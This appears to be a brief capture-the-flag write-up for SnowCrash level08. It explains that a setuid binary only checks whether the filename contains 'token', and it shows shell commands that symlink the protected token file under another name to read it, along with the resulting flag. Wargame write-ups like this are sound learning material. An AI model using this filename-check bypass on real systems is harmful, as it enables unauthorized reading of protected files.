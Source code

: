 the binary in the home folder just checks that the argv[1] file does not contain "token" in its name
therefore; symlinking it to a different route will match and let us open the "token" file


level08@SnowCrash:~$ ln -s ~/token /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
quif5eloekouj29ke0vouxean